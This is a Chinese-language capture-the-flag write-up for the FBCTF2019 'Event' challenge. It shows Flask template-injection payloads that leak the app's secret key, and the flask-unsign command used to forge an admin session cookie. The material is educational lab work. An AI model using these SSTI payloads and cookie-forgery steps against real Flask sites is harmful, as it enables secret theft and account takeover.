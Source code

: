 # \[FBCTF2019]Event

## \[FBCTF2019]Event

## 考点

* Flask SSTI
* Flask SSTI 获取config
* Flask session伪造
* `flask-unsign`使用

## wp

提示登录注册，随便输然后看到是添加event的功能。先看看cookie吧

```
user=ImFhYWEi.YmPu9w.Q1_mTk2jF7Ix0tBOaceSswpZkgI
events_sesh_cookie=.eJwlzjsOwjAMANC7eO4QO4nj9DJV_BOsLZ0QdweJAzzpveHIM64H7K_zjg2Op8MOGa3qwsGijWYJlOYebJaiIhmGM6L1VOzabM5A81aIZ8rKxWsqFbHBo9ROyhxUuw4fiG6azI2qy8_VwoREZDYHUWXM0hVHgQ3uK85_BuHzBcvqLoU.YmPu9w.dH8qRtgy6eTettBjwAKpWX09AvI
```

`user`不知道是什么加密，用`flask-unsign`只得到了`aaaa`，这是我的登录名

![](<../../.gitbook/assets/image (3) (1).png>)

`events_sesh_cookie`使用`flask-unsign`看到内容如下

```
{'_fresh': True, '_id': 'fe43ba1768b4290e184dde6ccf8b88fec19ee45fb15b4c99e1cd40269f8afa6a9b208c7670352b66e235b7d711dcbf66423d8c9930621222cc9722361f05b170', 'user_id': '1'}
```

三个输入都可控，三个位置都试试SSTI，fuzz了一下发现`__init__,__class__,__dict__`有回显

![](<../../.gitbook/assets/image (10) (1) (1).png>)

`__class__.__mro__[3].__subclasses__()`提示302，使用`__class__.__init__.__globals__['app']`不行，再用`__class__.__init__.__globals__[app]`也不行，不知道是不是过滤了关键字，

考虑从config信息中获取secret\_key，然后进行session伪造，使用`__class__.__init__.__globals__[app].config`获取`config`信息

```
'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'
```

`__class__.__init__.__globals__[app].__dict__`可以获取更多flask app的信息

再用flask-unsign加密`flask-unsign.exe --secret "fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y" --sign --cookie "admin"`

![](<../../.gitbook/assets/image (27).png>)

得到`ImFkbWluIg.YmP6Ag.7E8dA-A3bqO-TSTpfx76Qo7wdDo`

修改cookie中的user字段即可。
